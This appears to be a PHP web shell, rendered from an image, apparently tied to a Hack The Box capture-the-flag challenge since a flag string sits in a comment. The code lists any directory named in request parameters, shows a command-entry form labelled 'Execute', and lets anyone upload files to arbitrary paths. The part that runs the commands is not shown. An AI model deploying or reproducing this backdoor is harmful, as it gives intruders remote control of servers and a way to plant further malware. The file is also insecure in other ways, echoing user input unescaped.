 ```php
        $owner["execute"] = ($mode & 00100) ? 'x' : '-';
        $group["read"] = ($mode & 00040) ? 'r' : '-';
        $group["write"] = ($mode & 00020) ? 'w' : '-';
        $group["execute"] = ($mode & 00010) ? 'x' : '-';
        $world["read"] = ($mode & 00004) ? 'r' : '-';
        $world["write"] = ($mode & 00002) ? 'w' : '-';
        $world["execute"] = ($mode & 00001) ? 'x' : '-';
        if( $mode & 0x800 ) $owner["execute"] = ($owner['execute']=='x') ? 's' : 'S';
        if( $mode & 0x400 ) $group["execute"] = ($group['execute']=='x') ? 's' : 'S';
        if( $mode & 0x200 ) $world["execute"] = ($world['execute']=='x') ? 't' : 'T';
        $s=sprintf("%1s", $type);
        $s.=sprintf("%1s%1s%1s", $owner['read'], $owner['write'], $owner['execute']);
        $s.=sprintf("%1s%1s%1s", $group['read'], $group['write'], $group['execute']);
        $s.=sprintf("%1s%1s%1s", $world['read'], $world['write'], $world['execute']);
        return $s;
}


$dir = $_GET['dir'];
if (isset($_POST['dir'])) {
        $dir = $_POST['dir'];
}
$file = '';
if ($dir == NULL or !is_dir($dir)) {
        if (is_file($dir)) {
                echo "enters";
                $file = $dir;
                echo $file;
        }
        $dir = './';
}
$dir = realpath($dir.'/'.$value);
##flag = HTB{W0w_ROt_A_DaY}
$dirs = scandir($dir);
echo "<h2>Viewing directory " . $dir . "</h2>";
echo "\n<br><form action='".$_SERVER['PHP_SELF']."' method='GET'>";
echo "<input type='hidden' name='dir' value=".$dir." />";
echo "<input type='text' name='cmd' autocomplete='off' autofocus>\n<input type='submit' value='Execute'>\n";
echo "</form>";
echo "\n<br>\n<div class='navbar-form'><form action='".$_SERVER['PHP_SELF']."' method='POST' enctype='multipart/form-data'>\n";
echo "<input type='hidden' name='dir' value='".$_GET['dir']."'/> ";
echo "<input type='file' name='fileToUpload' id='fileToUpload'>\n<br><input type='submit' value='Upload File' name='submit'>";
echo "</div>";

if (isset($_POST['submit'])) {
        $uploadDirectory = $dir.'/'.basename($_FILES['fileToUpload']['name']);
        if (file_exists($uploadDirectory)) {
        echo "<br><br><b style='color:red'>Error. File already exists in ".$uploadDirectory.".</b></br></br>";
        }
        else if (move_uploaded_file($_FILES['fileToUpload']['tmp_name'], $uploadDirectory)) {
                echo '<br><br><b>File '.$_FILES['fileToUpload']['name'].' uploaded successfully in '.$dir.' !</b><br>';
        } else {
                echo '<br><br><b style="color:red">Error uploading file '.$uploadDirectory.'</b><br><br>';

        }

}
```